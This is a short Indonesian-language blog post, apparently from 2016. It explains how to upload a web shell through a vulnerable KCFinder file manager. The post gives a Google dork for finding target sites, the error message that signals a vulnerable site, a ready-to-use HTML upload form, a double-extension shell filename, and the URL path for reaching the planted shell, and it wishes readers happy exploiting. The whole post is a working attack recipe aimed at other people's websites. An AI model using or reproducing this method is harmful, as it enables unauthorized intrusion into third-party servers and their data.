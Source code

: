 ```yaml
---
title: 'Exploit Kcfinder Upload Shell'
date: 2016-05-14T08:54:00.000-07:00
draft: false
aliases: [ "/2016/05/exploit-kcfinder-upload-shell.html" ]
tags : [Security]
---
```


[![](https://3.bp.blogspot.com/-eL_2tPYpmnw/WD0n01WTfTI/AAAAAAAABb8/31fP4ZpdSRIehEcu2LlOjCixmRgUUSOagCLcB/s320/kcfinder.jpg)](https://3.bp.blogspot.com/-eL_2tPYpmnw/WD0n01WTfTI/AAAAAAAABb8/31fP4ZpdSRIehEcu2LlOjCixmRgUUSOagCLcB/s1600/kcfinder.jpg)

  
this exploit discovered by incef team  
  
nih udah lama emang, tpi apasalahnya share bwat yg blum tau bwat blajar jga..  
Dah lngsng ja..  
  
Dork: inurl:/kcfinder/upload.php (kmbangin sndiri y, jgn jagain dork)  
  
Kalo vuln muncul "Unknown error"  
  
Exploit :  

> <form action="site/path/kcfinder/upload.php" enctype="multipart/form-data" method="POST">  
> <input name="Filedata" type="file" /><button>~/ ndsxf</button></form>

  
Shell format : shell.php.ndsxf  
  
Shell akses : site/path/upload/files/shell.php.ndsxf  
  
slamat berexploitasi :)